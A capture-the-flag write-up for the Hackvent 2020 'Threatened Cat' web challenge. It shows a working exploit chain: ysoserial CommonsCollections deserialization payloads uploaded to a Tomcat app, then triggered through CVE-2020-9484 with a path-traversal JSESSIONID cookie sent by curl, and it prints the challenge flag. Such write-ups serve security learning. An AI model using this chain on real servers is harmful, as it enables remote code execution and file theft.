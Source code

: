 [← Day 20](../day20/) / [↑ TOC](../README.md) / [→ Day 22](../day22/)


# Day 21 / HV20.21 Threatened Cat



## Challenge

<!-- ...10....:...20....:...30....:...40....:...50....:...60....:...70....:. -->
* Author: inik
* Tag:    `#web-security` `#exploitation`
* Level:  Hard

You can feed this cat with many different things, but only a certain kind of
file can endanger the cat.

Do you find that kind of files? And if yes, can you use it to disclose the flag?
Ahhh, by the way: The cat likes to hide its stash in `/usr/bin/catnip.txt`.

Note: The cat is currently in hibernation and will take a few seconds to wake
up.


### Resources

An instance of the web app _Threatened Cat_ could be started from within the
the challenge description.



## Solution

The web app is a nice ASCII kitty waiting for a file upload …

![](threatcat_webapp.png)

If you upload a file, the cat will print out what kind of file it is and whether
it feels threatened by it. For example if a JPG image is uploaded the result
is …

![](threatcat_jpg.png)

The file information the cat prints probably comes from the canonical 
[file(1)] command. The only way that some unusual reaction can be provoked is
if a rather big file is uploaded. This leads to an error message indicating the
server runtime environment …

[file(1)]: https://en.wikipedia.org/wiki/File_(command)

`[E]: An error occured: Maximum upload size exceeded; nested exception is 
java.lang.IllegalStateException: 
org.apache.tomcat.util.http.fileupload.impl.SizeLimitExceededException: 
the request was rejected because its size (98566380) exceeds the configured 
maximum (131072)`

Server runtime: Java/Tomcat (which is fitting the overall cat theming)


### Why so serial ?

While searching the web for exploits against Java/Tomcat, sooner or later the
topic _object serialization_ comes up. Since serialization attacks are quite
intricate to build yourself, it's probably best to look for a software package
that generates such attack payloads. \*_[ysoserial project]() entering the
stage_\*

[ysoserial project]: https://github.com/frohoff/ysoserial

<!-- ...10....:...20....:...30....:...40....:...50....:...60....:...70....:. -->
Since my experience with serialization attacks was lacking the preferred
approach was to simply try every payload type the tool has to offer while
keeping the injected command simple.

With the first choice named `CommonsCollections1`, the cat feels already
threatened. With the choice `CommonsCollections2` it says that it feels _really_
threatened …

```sh
$ java -jar ysoserial-master-6eca5bc740-1.jar CommonsCollections1 'sleep 5' > attack1
$ java -jar ysoserial-master-6eca5bc740-1.jar CommonsCollections2 'sleep 5' > attack2
```

| ![](threatcat_threatened.png) | ![](threatcat_really_threatened.png) |
|-------------------------------|--------------------------------------|

So far so good. But what ever command is included into the payload, it doesn't
seem to get triggered.


### "Got my finger on the trigger... I'm gonna pull it."
<!-- ...10....:...20....:...30....:...40....:...50....:...60....:...70....:. -->

Turns out that there is a [vulnerability in Apache Tomcat (CVE-2020-9484)] that
allows to trigger a deserialization attack by sending the server a modified
JSESSION cookie. The server basically tries to find a session stored as a file
and the attacker can provide the path to the cookie file. If the server finds a
file that ends in `.session` in the given path, it will run the deserialization
exploit inside of it.

[vulnerability in Apache Tomcat (CVE-2020-9484)]: https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/

In the end the whole attack goes like this …

1. _ysoserial_ is used to craft a special deserialization payload, whose sole
   purpose is to copy the flag `/usr/bin/catnip.txt` to a path that is readable
   from the web facing side – i.e. `/usr/local/uploads/catnip.txt` readable at
   `/cat/files/catnip.txt` via HTTP.

   ```sh
   $ java -jar ysoserial-master-6eca5bc740-1.jar CommonsCollections2 'cp /usr/bin/catnip.txt /usr/local/uploads/catnip.txt' > cattack.session
   ```

2. The payload is uploaded to the server with the regular cat web app.

3. The exploit payload is triggered via the session cookie vulnerability …

   ```sh
   $ curl 'https://eca4b853-2bb9-4a16-a11d-e532a29541a4.idockerand/cat/' -H 'Cookie: JSESSIONID=../../../../../usr/local/uploads/cattack'
   <!doctype html><html lang="en"><head><title>HTTP Status 500 – Internal Server Error</title>
   [ LOTS OF JAVA ERROR MESSAGES ]
   ```

4. The flag [catnip.txt](catnip.txt) is casually downloaded the from the web
   page.


<!-- ...10....:...20....:...30....:...40....:...50....:...60....:...70....:. -->
--------------------------------------------------------------------------------

Flag: `HV20{!D3s3ri4liz4t10n_rulz!}`

[← Day 20](../day20/) / [↑ TOC](../README.md) / [→ Day 22](../day22/)
